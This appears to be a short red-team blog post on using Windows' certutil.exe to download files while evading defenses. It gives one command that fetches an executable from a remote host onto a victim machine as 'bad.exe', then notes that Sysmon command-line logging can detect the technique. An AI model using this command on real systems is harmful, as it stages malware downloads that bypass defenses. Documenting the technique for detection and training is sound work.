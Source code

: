 ```yaml
---
layout: post
title: "downloading file with certutil"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /defense-evasion/
---
```


---
description: Downloading additional files to the victim system using native OS binary.
---

# Downloading Files with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

![](../../.gitbook/assets/certutil-download.gif)

## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:

![](../../.gitbook/assets/certutil-sysmon.png)
@spotheplanet
